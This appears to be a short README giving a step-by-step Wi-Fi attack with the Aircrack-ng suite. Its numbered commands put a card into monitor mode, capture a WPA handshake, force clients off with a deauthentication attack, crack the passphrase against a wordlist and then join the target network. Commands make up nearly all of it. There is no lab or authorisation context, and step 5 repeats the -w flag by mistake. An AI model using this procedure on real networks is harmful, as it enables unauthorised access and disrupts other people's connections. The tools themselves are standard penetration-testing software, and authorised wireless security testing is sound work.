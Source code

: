 ## Tool: Aircrack-ng suite

## Steps:

#### 1) Place = Place wireless card into monitor mode

#### 2) Discover = Discover information about network (Channel, BSSID)

#### 3) Select = Select and capture data

#### 4) Perform = Perform deauth attack

#### 5) Capture = Capture WPA handshake

#### 6) Attempt = Attempt to crack the handshake

## Commands:

#### 1) 

    iwconfig

#### 2) 

    airmon-ng check kill 
    
  (Kill processes that might interfere)

#### 3) 

    airmon-ng start WIRELESS_INTERFACE 
  
  (example: wlan0)

#### 4) 

    airodump-ng WIRELESS_INRERFACEmon 
    
  (wlan0mon) (Monitor for traffic and search for an access point to target)

#### 5) 

    airodump-ng -c CHANNEL --bssid BSSID -w CAPTURE_FILE -w WIRELESS_INTERFACEmon 
    
(wlan0mon) (Capture the 4-way handshake)

#### 6) 

    aireplay-ng -0 NUM -a MAC_ADDRESS_OF_ACCESS_POINT -c STATION_NUMBER WIRELESS_INTERFACEmon 
  
  (wlan0mon) (Deauth Attack, NUM means how many times will this attack be performed)

#### 7) 

    aircrack-ng -w WORDLIST.TXT -b BSSID CAPTURE_FILE 
    
  (Crack WPA Handshake)

#### 8) 

    wpa_passphrase TARGET_SSID 'ENTER PSK HERE' > config

#### 9) 

    sudo wpa_supplicant -B -c config -i WIRELESS_INTERFACE

(Supply the cracked PSK, then connect to the target Wi-Fi)
